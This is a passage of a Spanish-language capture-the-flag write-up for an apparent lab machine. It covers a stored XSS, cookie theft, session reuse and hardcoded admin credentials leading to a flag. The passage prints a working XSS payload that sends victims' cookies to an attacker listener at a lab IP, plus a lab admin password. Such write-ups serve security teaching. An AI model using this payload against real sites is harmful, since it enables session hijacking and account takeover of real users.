 ````<script>document.location='http://10.10.84.171:4444/XSS/grabber.php?c='+document.cookie</script>````
El endpoint admin.py sugiere que la app incluye un componente Python — muy interesante para revisar inyección o exposición de código.

## Paso 12 🔎 Hallazgo: Credenciales hardcoded en `admin.py`

Al acceder a `http://worldwap.thm:8081/admin.py` se muestra parte del código fuente. En él aparecen credenciales hardcoded (ejemplo extraído):

<img width="1240" height="664" alt="entro a la pagina admin py" src="https://github.com/user-attachments/assets/a8d705a5-639e-4971-9930-f8be2c04f07e" />

Admin credentials (for demonstration purposes)

username = 'admin'

password = 'Un6u3$$4Bl3!!'

> **Advertencia:** estas credenciales están en texto plano dentro del código del servidor. No incluyas la contraseña real en repositorios públicos; en la documentación reemplázala por `REDACTED`.

# Paso 13 🏁 Resultado: Acceso Admin y Bandera obtenida

<img width="1406" height="501" alt="uso credenciales de la pag admin py" src="https://github.com/user-attachments/assets/7925ca1c-5461-4f89-a6b6-d29436953860" />


<img width="1442" height="805" alt="segunda flag en el panel de admin" src="https://github.com/user-attachments/assets/7a787642-d83d-4236-93d3-dbcc5253cad1" />


## ✅ Resumen

Gracias al flujo anterior (XSS → robo de cookie → reutilización de `PHPSESSID`) y a la lectura de `admin.py`, conseguí credenciales administrativas y pude iniciar sesión en `http://worldwap.thm:8081`. 

Con esa sesión obtuve acceso al panel **Admin** y encontré la segunda bandera.

> **Nota de seguridad / privacidad**: las credenciales y las flags han sido redactadas en las capturas para evitar divulgación pública.

---



